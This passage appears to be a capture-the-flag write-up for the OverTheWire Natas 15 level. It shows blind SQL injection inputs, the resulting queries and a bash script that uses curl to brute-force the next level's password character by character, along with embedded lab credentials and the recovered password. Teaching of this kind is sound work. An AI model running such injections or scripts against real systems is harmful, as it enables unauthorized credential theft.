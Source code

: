 ```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#
Result : true
```

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#
Result : false
```

```text
natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#  
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#
Result : true
```

Lets create a bash script to get the password

```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND (SELECT password FROM users WHERE username=\"natas16\" LIMIT 1) LIKE BINARY \"$password$letter%\"#"
        data="username=natas16$injection"
        curl_output=$(curl -s 'http://natas15.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==' -d "$data")
        if echo $curl_output | grep -q "This user exists."; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```text
[+] Password: W
[+] Password: Wa
[+] Password: WaI
[+] Password: WaIH
[+] Password: WaIHE
[+] Password: WaIHEa
[+] Password: WaIHEac
[+] Password: WaIHEacj
[+] Password: WaIHEacj6
[+] Password: WaIHEacj63
[+] Password: WaIHEacj63w
[+] Password: WaIHEacj63wn
[+] Password: WaIHEacj63wnN
[+] Password: WaIHEacj63wnNI
[+] Password: WaIHEacj63wnNIB
[+] Password: WaIHEacj63wnNIBR
[+] Password: WaIHEacj63wnNIBRO
[+] Password: WaIHEacj63wnNIBROH
[+] Password: WaIHEacj63wnNIBROHe
[+] Password: WaIHEacj63wnNIBROHeq
```